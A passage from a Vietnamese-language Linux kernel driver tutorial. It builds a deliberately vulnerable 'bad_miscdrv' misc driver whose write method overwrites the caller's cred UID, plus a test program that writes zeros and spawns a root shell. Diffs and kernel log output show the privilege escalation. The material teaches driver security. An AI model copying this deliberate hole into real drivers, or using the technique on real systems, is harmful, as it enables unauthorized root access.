        if( n < 0 ) [ ... ]
        printf("%s: wrote %zd bytes to %s\n", argv[0], n, argv[2]);
    }
    [...]
    free(buf);
    close(fd);
    exit(EXIT_SUCCESS);
}
```

(Trước khi thử driver này, hãy bảo đảm kernel module của driver `miscdrv` trước đã được gỡ.) Bây giờ, tất nhiên hãy bảo đảm driver này đã được build và chèn, nếu không system call `open(2)` sẽ thất bại. Chúng ta trình bày một vài lần chạy thử. Trước hết, hãy build ứng dụng user-mode, chèn driver (không được thể hiện trong Hình 1.8), rồi đọc từ device node just-created:



Hình 1.8 – miscdrv\_rdwr: kiểm thử read (ở mức tối thiểu); bí mật ban đầu được tiết lộ

Ứng dụng user-mode nhận thành công 7 byte từ driver; đó là giá trị bí mật (ban đầu), được ứng dụng hiển thị. Kernel log phản ánh việc khởi tạo driver, và vài giây sau, bạn có thể thấy (qua các lệnh `printk` dạng `dev_xxx()` mà chúng ta phát) ứng dụng `rdwr_test_secret` chạy code của driver trong process context. Việc mở device, chạy read tiếp theo và các method close được thấy rõ. (Chú ý tên process bị cắt thành `rdwr_test_secre`; đó là vì member `comm` của task structure là tên process được cắt còn 16 ký tự.) Trong Hình 1.9, chúng ta trình bày thao tác bổ sung là ghi vào device node, thay đổi giá trị bí mật; một lần đọc tiếp theo thực sự cho thấy thao tác đã hoạt động:



Hình 1.9 – miscdrv\_rdwr: kiểm thử write (ở mức tối thiểu); một bí mật mới, tuyệt vời được ghi

Phần kernel log thể hiện thao tác ghi được tô nổi bật trong Hình 1.9. Cách này hoạt động; tôi rất khuyến khích bạn tự thử và theo dõi kernel log trong quá trình thực hiện.

Bây giờ là lúc tìm hiểu sâu hơn một chút. Thực tế là với tư cách người viết driver, bạn phải học cách thật cẩn thận về bảo mật, nếu không đủ loại bất ngờ khó chịu sẽ chờ sẵn. Mục tiếp theo giúp bạn hiểu lĩnh vực quan trọng này.

## Các vấn đề và mối quan ngại về bảo mật

Một điều quan trọng cần cân nhắc với người mới viết driver là bảo mật. Vấn đề là việc dùng ngây thơ ngay cả các hàm rất phổ biến `copy_[from|to]_user()` trong driver cũng có thể cho phép người dùng ác ý khá dễ dàng — và trái phép — ghi đè memory nhằm có lợi cho họ trong cả user space lẫn kernel space. Bằng cách nào? Mục sau giải thích khá chi tiết; tiếp đó, chúng ta thậm chí sẽ trình bày một cách hack (hơi dàn dựng, nhưng vẫn hoạt động).

### Hack secret driver

Hãy nghĩ về điều này: chúng ta có helper routine `copy_to_user()`; tham số đầu tiên là địa chỉ đích `to`, tất nhiên phải là user space virtual address (UVA). Cách dùng thông thường sẽ tuân thủ điều này và cung cấp user space virtual address hợp lệ, đúng luật làm địa chỉ đích, và mọi thứ sẽ ổn. Nhưng nếu không thì sao? Nếu thay vào đó truyền một user space address khác, hoặc — hãy xem này — một kernel virtual address (KVA) thì sao? Code `copy_to_user()`, đang chạy với đặc quyền kernel, lúc này sẽ ghi đè địa chỉ đích bằng bất kỳ dữ liệu nào ở địa chỉ nguồn (tham số thứ hai), với số byte trong tham số thứ ba! Thật vậy, hacker thường thử những kỹ thuật như vậy để chèn code giả làm dữ liệu vào user space buffer và thực thi nó với đặc quyền kernel, dẫn đến tình huống privilege escalation (privesc) khá nguy hiểm.

Để minh họa rõ tác hại của việc không thiết kế và triển khai driver cẩn thận, chúng ta cố tình đưa lỗi (thực sự là bug!) vào cả read method lẫn write method của một phiên bản “tệ” của driver trước (mặc dù ở đây chỉ xét tình huống liên quan đến các routine rất phổ biến `copy_[from|to]_user()` và không có gì khác).

Để có cảm nhận hands-on rõ hơn, chúng ta sẽ viết một phiên bản “tệ” của driver `ch1/miscdrv_rdwr`. Chúng ta sẽ đặt tên nó (thật là khéo) là `ch1/bad_miscdrv`. Trong phiên bản này, chúng ta cố tình tích hợp hai code path có bug:

- Một trong read method của driver

- Cái còn lại, thú vị hơn như bạn sắp thấy, trong write method.

Hãy xem cả hai. Chúng ta bắt đầu với read có bug.

#### Driver tệ – read() có bug

Để giúp bạn thấy code đã thay đổi gì, trước hết thực hiện `diff(1)` giữa driver code (cố tình) tệ này với phiên bản (tốt) trước, tất nhiên thu được những khác biệt (trong đoạn sau, chúng ta giới hạn output chỉ còn những gì liên quan nhất):

```
// in ch1/bad_miscdrv
$ diff -u ../miscdrv_rdwr/miscdrv_rdwr.c bad_miscdrv.c
[ ... ]
+#include <linux/cred.h>            // access to struct cred
#include "../../convenient.h"
[ ... ]
static ssize_t read_miscdrv_rdwr(struct file *filp, char __user *ubuf,
[ ... ]
+ void *kbuf = NULL;
+ void *new_dest = NULL;
[ ... ]
+#define READ_BUG
+//#undef READ_BUG
+#ifdef READ_BUG
[ ... ]
+ new_dest = ubuf+(512*1024);
+#else
+ new_dest = ubuf;
+#endif
[ ... ]
+ if (copy_to_user(new_dest, ctx->oursecret, secret_len)) {
[ ... ]
```

Vì vậy, điều này khá rõ: trong read method của driver “tệ”, nếu macro `READ_BUG` được định nghĩa, chúng ta thay đổi destination pointer trong user space để trỏ đến vị trí không hợp lệ (xa hơn 512 KB so với vị trí thực sự phải sao chép dữ liệu đến!). Điều này minh họa ý ở đây: chúng ta có thể làm tùy ý như vậy vì đang chạy với đặc quyền kernel. Việc nó gây vấn đề và bug là chuyện khác.

Hãy thử: trước hết bảo đảm bạn đã build và nạp kernel module `bad_miscdrv` (có thể dùng convenience script `lkm` để làm vậy). Lần chạy thử, gọi system call `read(2)` qua ứng dụng user-mode `ch1/bad_miscdrv/rdwr_test_hackit`, dẫn đến thất bại (xem ảnh sau):



Hình 1.10 – Ảnh chụp misc driver bad\_miscdrv thực hiện một read “tệ”

À, điều này thú vị; system call `read(2)` của ứng dụng kiểm thử (`rdwr_test_hackit`) thực sự thất bại, với routine `perror(3)` chỉ ra nguyên nhân thất bại là `Bad` `address`. Nhưng vì sao? Vì sao driver, chạy với đặc quyền kernel, không thực sự ghi vào địa chỉ đích (ở đây là `0x5597245d46b0`, địa chỉ sai; như đã biết, nó đang cố ghi xa hơn 512 KB so với địa chỉ đích đúng. Chúng ta cố tình viết code read method của driver để làm như vậy). Đó là vì kernel bảo đảm các routine `copy_[from|to]_user()` (lý tưởng là) sẽ thất bại khi cố đọc hoặc ghi địa chỉ không hợp lệ! Bên trong có một số kiểm tra: `access_ok()` là kiểm tra đơn giản chỉ bảo đảm I/O được thực hiện trong segment dự kiến (user hoặc kernel). Linux kernel hiện đại có kiểm tra tốt hơn; ngoài kiểm tra `access_ok()` đơn giản, kernel sau đó đi qua — nếu được bật — KASAN (Kernel Address Sanitizer, một tính năng compiler instrumentation; KASAN thực sự rất hữu ích, must-do trong phát triển và kiểm thử!), các kiểm tra object size (bao gồm kiểm tra overflow), rồi mới gọi worker routine thực hiện sao chép thực tế, `raw_copy_[from|to]_user()`.

Tốt; bây giờ hãy chuyển sang trường hợp thú vị hơn, write có bug mà chúng ta sẽ sắp xếp (dù theo cách dàn dựng) thành một cuộc tấn công! Hãy đọc tiếp...

#### Driver tệ – write() có bug – một privesc!

Hacker ác ý thực sự muốn gì, mục tiêu tối thượng của họ là gì? Tất nhiên là root shell trên hệ thống (đã có root chưa?). Với khá nhiều code dàn dựng trong write method của driver (do đó khiến cách hack này không thực sự tốt; nó khá học thuật), hãy đạt được điều đó! Để làm vậy, chúng ta sửa cả ứng dụng user-mode lẫn device driver. Trước hết hãy xem thay đổi của ứng dụng user-mode.

##### Sửa ứng dụng kiểm thử user space

Chúng ta sửa nhẹ ứng dụng user space — thực chất là process context của mình. Phiên bản cụ thể này của ứng dụng kiểm thử user-mode khác phiên bản trước ở một điểm: giờ có macro tên `HACKIT`. Nếu được định nghĩa (mặc định là có), process này sẽ cố tình chỉ ghi các số không vào user space buffer rồi gửi đến write method của driver tệ. Nếu driver có macro `DANGER_GETROOT_BUG` được định nghĩa (mặc định là có), nó sẽ ghi các số không vào member UID của process, qua đó khiến user-mode process nhận đặc quyền root!

Trong mô hình Unix/Linux truyền thống, nếu Real User ID (RUID) và/hoặc Effective User ID (EUID) (nằm trong task structure, trong `struct cred`) được đặt thành giá trị đặc biệt bằng không (`0`), điều đó có nghĩa process có quyền superuser (root). Ngày nay, mô hình POSIX Capabilities được xem là cách tốt hơn để làm việc với đặc quyền, vì cho phép gán quyền fine-grained — capability — cho một thread, thay vì cho process hoặc thread toàn quyền kiểm soát hệ thống như root.

Đây là `diff` nhanh của ứng dụng kiểm thử user space so với phiên bản trước, cho phép bạn thấy các thay đổi code (một lần nữa, chúng ta giới hạn output chỉ còn những gì liên quan nhất):

```
// in ch1/bad_miscdrv
$ diff -u ../miscdrv/rdwr_test.c rdwr_test_hackit.c
[ ... ]
+#define HACKIT
[ ... ]
+#ifndef HACKIT
+     strncpy(buf, argv[3], num);
+#else
+     printf("%s: attempting to get root ...\n", argv[0]);
+     /*
+      * Write only 0's ... our 'bad' driver will write this into
+      * this process's current->cred->uid member, thus making us
+      * root !
+      */
+     memset(buf, 0, num);
 #endif
- } else { // test writing ..
          n = write(fd, buf, num);
[ ... ]
+     printf("%s: wrote %zd bytes to %s\n", argv[0], n, argv[2]);
+#ifdef HACKIT
+     if (getuid() == 0) {
+         printf(" !Pwned! uid==%d\n", getuid());
+         /* the hacker's holy grail: spawn a root shell */
+         execl("/bin/sh", "sh", (char *)NULL);
+     }
+#endif
[ ... ]
```

Điều này có nghĩa bí mật (so-called vậy) không bao giờ được ghi; không sao. Bây giờ hãy xem các sửa đổi trong driver.

##### Sửa device driver

Để thấy write method của driver `misc` tệ thay đổi thế nào, chúng ta tiếp tục xem cùng `diff` (giữa driver tệ và tốt) đã xem trong mục Driver tệ – read() có bug. Comment trong code từ thao tác `diff` sau khá rõ ràng. Hãy xem:

```
// in ch1/bad_miscdrv
$ diff -u ../miscdrv_rdwr/miscdrv_rdwr.c bad_miscdrv.c
[...]
         // << this is within the driver's write method >>
 static ssize_t write_miscdrv_rdwr(struct file *filp, const char __user
*ubuf,
 size_t count, loff_t *off)
 {
        int ret = count;
        struct device *dev = ctx->dev;
+       void *new_dest = NULL;
[ ... ]
+#define DANGER_GETROOT_BUG
+//#undef DANGER_GETROOT_BUG
+#ifdef DANGER_GETROOT_BUG
+     /* Make the destination of the copy_from_user() point to the current
+      * process context's (real) UID; this way, we redirect the driver to
+      * write zero's here. Why? Simple: traditionally, a UID == 0 is what
+      * defines root capability!
+      */
+      new_dest = &current->cred->uid;
+      count = 4; /* change count as we're only updating a 32-bit quantity
*/
+      pr_info(" [current->cred=%px]\n", (TYPECST)current->cred);
+#else
+      new_dest = kbuf;
+#endif
```

Điểm chính từ code phía trên là khi macro `DANGER_GETROOT_BUG` được định nghĩa (mặc định là có), chúng ta đặt pointer `new_dest` thành địa chỉ member UID (real) trong credential structure, vốn nằm trong task structure (được `current` tham chiếu) của process context này! (Nếu mọi thứ này nghe xa lạ, hãy đọc tài liệu đồng hành Linux Kernel Programming, `Chapter 6`, Kiến thức thiết yếu về kernel internals – Process và thread). Bằng cách này, khi gọi routine `copy_to_user()` để ghi vào user space, nó thực sự sẽ ghi các số không vào member UID của process trong `current->cred`. UID bằng không là thứ (theo truyền thống) xác định root. Ngoài ra, hãy chú ý chúng ta giới hạn write ở 4 byte (vì chỉ đang ghi một đại lượng 32-bit).

(Nhân tiện, quá trình build driver “tệ” phát ra một warning; ở đây, vì đó là có chủ ý, chúng ta chỉ bỏ qua nó):

```
Linux-Kernel-Programming-Part-2/ch1/bad_miscdrv/bad_miscdrv.c:229:11:
warning: assignment discards ‘const’ qualifier from pointer target type [-
Wdiscarded-qualifiers]
  229 | new_dest = &current->cred->uid;
      |          ^
```

Đây là lời gọi code `copy_from_user()`:

```
[...]
+       dev_info(dev, "dest addr = " ADDRFMT "\n", (TYPECST)new_dest);
        ret = -EFAULT;
-       if (copy_from_user(kbuf, ubuf, count)) {
+       if (copy_from_user(new_dest, ubuf, count)) {
                dev_warn(dev, "copy_from_user() failed\n");
                goto out_cfu;
        }
[...]
```

Rõ ràng, routine `copy_to_user()` phía trên sẽ ghi buffer user-supplied, `ubuf`, vào destination buffer `new_dest` — quan trọng là chúng ta đã khiến nó trỏ đến `current->cred->uid` — với số byte là `count`.

##### Bây giờ hãy lấy root

Tất nhiên, muốn biết món ăn ra sao thì phải ăn thử, đúng không? Vậy hãy thử cách hack này; ở đây, chúng ta giả định bạn trước hết đã gỡ mọi phiên bản trước của các driver “misc”, rồi build và nạp kernel module `bad_miscdrv` vào memory:



Hình 1.11 – Ảnh chụp misc driver bad\_miscdrv thực hiện write “tệ”, dẫn đến root – một privesc!

Hãy xem; chúng ta thực sự có root! Ứng dụng `rdwr_test_hackit`, phát hiện đã có root (qua system call `getuid(2)` đơn giản), sau đó làm điều hợp lý: exec một root shell (qua API `execl(3)`), và thế là chúng ta ở trong root shell. Chúng ta hiển thị kernel log:

```
$ dmesg
[ 63.847549] bad_miscdrv:bad_miscdrv_init(): LLKD 'bad' misc driver (major
# 10) registered, minor# = 56
[ 63.848452] misc bad_miscdrv: A sample print via the dev_dbg(): (bad)
driver initialized
[ 84.186882] bad_miscdrv:open_miscdrv_rdwr(): 000) rdwr_test_hacki :2765 |
...0 /* open_miscdrv_rdwr() */
[ 84.190521] misc bad_miscdrv: opening "bad_miscdrv" now; wrt open file:
f_flags = 0x8001
[ 84.191557] bad_miscdrv:write_miscdrv_rdwr(): 000) rdwr_test_hacki :2765 |
...0 /* write_miscdrv_rdwr() */
[ 84.192358] misc bad_miscdrv: rdwr_test_hacki wants to write 4 bytes to
(original) ubuf = 0x55648b8f36b0
[ 84.192971] misc bad_miscdrv: [current->cred=ffff9f67765c3b40]
[ 84.193392] misc bad_miscdrv: dest addr = ffff9f67765c3b44 count=4
[ 84.193803] misc bad_miscdrv: 4 bytes written, returning... (stats: tx=0,
rx=4)
[ 89.002675] bad_miscdrv:close_miscdrv_rdwr(): 000) [sh]:2765 | ...0 /*
close_miscdrv_rdwr() */
[ 89.005992] misc bad_miscdrv: filename: "bad_miscdrv"
$
```

Bạn có thể thấy cách nó hoạt động: kernel virtual address ban đầu của user-mode buffer `ubuf` là `0x55648b8f36b0`. Trong cách hack này, chúng ta sửa nó thành địa chỉ đích mới (kernel virtual address) `0xffff9f67765c3b44`, là (trong trường hợp này) kernel virtual address của member UID trong `struct cred` (nằm trong task structure của process). Không chỉ vậy, driver còn sửa số byte cần ghi (`count`) thành `4` (byte), vì đang cập nhật một đại lượng 32-bit.

Lưu ý: những cách hack này chỉ là hack. Chúng hoàn toàn có thể khiến hệ thống mất ổn định (khi chạy trên kernel “debug” của chúng ta, KASAN thực tế đã phát hiện một null pointer dereference!).

Những demo này không chứng minh điều gì ngoài việc bạn, với tư cách người viết kernel và/hoặc driver, phải luôn chú ý đến các vấn đề lập trình, bảo mật và những điều khác. Đến đây, chúng ta kết thúc mục này và cả chương.

## Tổng kết

Đến đây kết thúc chương về viết một character device driver đơn giản thuộc class `misc` trên Linux OS; tuyệt vời, giờ bạn đã biết những điều cơ bản về viết device driver trên Linux!

Chương bắt đầu bằng giới thiệu kiến thức cơ bản về device, và quan trọng là những điều thiết yếu rất ngắn gọn về LDM hiện đại. Sau đó bạn học cách viết character device driver đơn giản đầu tiên, đăng ký với framework `misc` của kernel. Trong quá trình đó, bạn cũng hiểu mối liên hệ giữa process, driver và kernel VFS. Sao chép dữ liệu giữa user address space và kernel address space là điều thiết yếu; chúng ta đã thấy cách làm. Một demo driver `misc` hoàn chỉnh hơn (driver “bí mật”) cho bạn thấy cách thực hiện I/O — read và write — chuyển dữ liệu giữa user space và kernel space. Phần quan trọng của chương này là mục cuối, nơi bạn học (ít nhất cũng đã bắt đầu) về bảo mật và driver; một “hack” thậm chí minh họa cuộc tấn công privesc!

Như đã nói trước, còn rất nhiều điều trong chủ đề rộng lớn về viết driver trên Linux; thật vậy, có cả những cuốn sách dành riêng cho nó! Hãy xem mục Đọc thêm của chương để tìm sách và tài liệu tham khảo trực tuyến liên quan.

Trong chương tiếp theo, bạn sẽ học một nhiệm vụ quan trọng của người viết driver — chính xác làm thế nào để kết nối hiệu quả device driver với user space process; một số cách tiếp cận hữu ích được trình bày chi tiết và so sánh. Hãy bảo đảm bạn hiểu rõ nội dung chương này, làm các bài tập được giao, xem các tài nguyên Đọc thêm rồi bước vào chương tiếp theo.

## Câu hỏi

1\. Nạp kernel module skeleton driver `misc` đầu tiên, `miscdrv`, rồi gọi `lseek(2)` trên nó; điều gì xảy ra? (Nó có thành công không? Giá trị trả về của `lseek` là gì?) Nếu không, bạn sẽ sửa thế nào?

2\. Viết một character driver thuộc class `misc` hoạt động như chương trình chuyển đổi đơn giản (giả sử pathname là `/dev/convert`). Ví dụ, khi ghi nhiệt độ theo độ Fahrenheit, nó phải trả về (ghi vào kernel log) nhiệt độ theo độ Celsius. Vì vậy, thực hiện `echo 98.6 > /dev/convert` phải khiến giá trị `37 C` được ghi vào kernel log. Ngoài ra, hãy làm như sau:

1\. Xác thực rằng dữ liệu truyền cho driver là giá trị số.

2\. Bạn sẽ xử lý giá trị floating-point thế nào? (Gợi ý: tham khảo mục Không cho phép floating point trong kernel trong Linux Kernel Programming, Chương 5, Viết kernel module đầu tiên LKM – Phần 2.)

3\. Viết driver “task display”; ở đây, chúng ta muốn user space process ghi PID của thread (hoặc process) vào nó. Khi đọc từ device node của driver (giả sử pathname là `/dev/task_display`), bạn phải nhận chi tiết về task (tất nhiên lấy từ task structure). Ví dụ, thực hiện `echo 1 > /dev/task_display` rồi `cat` `/dev/task_display` phải khiến driver phát chi tiết task của PID 1 vào kernel log. Đừng quên thêm kiểm tra tính hợp lệ (kiểm tra PID hợp lệ, v.v.).

4\. (Nâng cao hơn một chút:) Viết một driver LDM-based “đúng nghĩa”; các driver `misc` được trình bày ở đây có đăng ký với framework `misc` của kernel, nhưng chỉ dùng ngầm raw character interface làm bus. LDM ưu tiên driver phải đăng ký với một kernel framework và một bus driver. Vì vậy, hãy viết driver “demo” đăng ký với framework `misc` của kernel và platform bus. Việc này cũng cần tạo một platform device giả. (Lưu ý các gợi ý: a) Hãy tham khảo `Chapter 2`, User-Kernel Communication Pathways, đặc biệt các mục Tạo một platform device đơn giản và Platform device. b) Có thể tìm một lời giải cho driver này tại đây: `solutions_to_assgn/ch12/misc_plat/`.)

Bạn sẽ tìm thấy lời giải cho một số câu hỏi trong GitHub repo của sách: `https://github.com/PacktPublishing/Linux-Kernel-Programming-Part-2/tree/main/solutions_to_assgn`.

## Đọc thêm

- Sách về Linux device driver:

- Linux Device Drivers Development, John Madieu, Packt, tháng 10 năm 2017: `https://www.amazon.in/Linux-Device-Drivers-Development-Madieu/dp/1785280007/ref=sr_1_2?keywords=linux+device+driverqid=1555486515s=bookssr=1-2` ; trình bày xuất sắc và rất mới (tại thời điểm viết; sách đề cập kernel 4.13)

- Linux Driver Development for Embedded Processors - Second Edition: Learn to develop embedded Linux drivers with kernel 4.9 LTS, Alberto Liberal de los Rios: `https://www.amazon.in/Linux-Driver-Development-Embedded-Processors-ebook/dp/B07L512BHG/ref=sr_1_6?crid=3RLFFZQXGAMF4keywords=linux+driver+development+embeddedqid=1555486342s=books` `sprefix=linux+driver+%2Cstripbooks%2C270sr=1-6-catcorr` ; rất tốt và cũng còn mới (kernel 4.9)

- Essential Linux Device Drivers, Sreekrishnan Venkateswaran, Pearson: `https://www.amazon.in/Essential-Drivers-Prentice-Software-Development/dp/0132396556/ref=tmm_hrd_swatch_0?_encoding=UTF8qid=sr=` ; thật sự xuất sắc, phạm vi rộng

- Linux Device Drivers, Rubini, Hartmann, Corbet, ấn bản thứ 3: `https://www.amazon.in/Linux-Device-Drivers-Kernel-Hardware/dp/8173668493/ref=sr_1_1?keywords=linux+device+driverqid=1555486515s=bookssr=1-1` ; đáng kính (nhưng) cũ — cuốn LDD3 nổi tiếng

- Kernel documentation chính thức:

- The Linux Kernel Device Model: `https://www.kernel.org/doc/html/latest/driver-api/driver-model/overview.html#the-linux-kernel-device-model`.

- The kernel driver API manual; đây là một trong các tài liệu PDF được tạo khi thực hiện `make pdfdocs` trong một Linux kernel source tree gần đây.

- Deprecated Interfaces, Language Features, Attributes, and Conventions: `https://www.kernel.org/doc/html/latest/process/deprecated.html#deprecated-interfaces-language-features-attributes-and-conventions`.

- Hướng dẫn thực hành:

- Device Drivers, Part 8: Accessing x86-Specific I/O-Mapped Hardware, Anil K Pugalia, OpenSourceForU, tháng 7 năm 2011: `https://opensourceforu.com/2011/07/accessing-x86-specific-io-mapped-hardware-in-linux/`

- User space device driver; hãy xem bài trình bày video thú vị này của Chris Simmonds: How to Avoid Writing Device Drivers for Embedded Linux: `https://www.youtube.com/watch?v=QIO2pJqMxjEt=909s`
